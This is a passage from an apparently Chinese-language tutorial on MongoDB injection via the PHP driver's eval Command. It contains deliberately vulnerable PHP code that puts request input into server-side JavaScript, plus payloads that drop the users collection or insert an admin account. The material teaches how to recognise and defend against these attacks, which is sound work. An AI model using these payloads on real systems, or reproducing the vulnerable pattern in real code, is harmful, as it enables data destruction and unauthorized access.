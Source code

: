 #### 使用 Command 方法造成的注入

MongoDB Driver 一般都提供直接执行 Shell 命令的方法，这些方式一般是不推荐使用的，但难免有人为了实现一些复杂的查询去使用。在 MongoDB 的服务器端可以通过 `db.eval` 方法来执行 JavaScript 脚本，如我们可以定义一个 JavaScript 函数，然后通过 `db.eval` 在服务器端来运行。

但是在 PHP 官网中就已经友情提醒了不要这样使用：

```php
<?php
$m = new MongoDB\Driver\Manager;

// Don't do this!!!
$username = $_GET['field'];
// $username is set to "'); db.users.drop(); print('"

$cmd = new \MongoDB\Driver\Command( [
'eval' => "print('Hello, $username!');"
] );

$r = $m->executeCommand( 'dramio', $cmd );
?>
```

还有人喜欢用 Command 去实现 MongoDB 的 `distinct` 方法，如下：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

这样都是很危险的，因为这个就相当于把 Mongo Shell 开放给了用户，如果此时构造下列 payload：

```php
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```
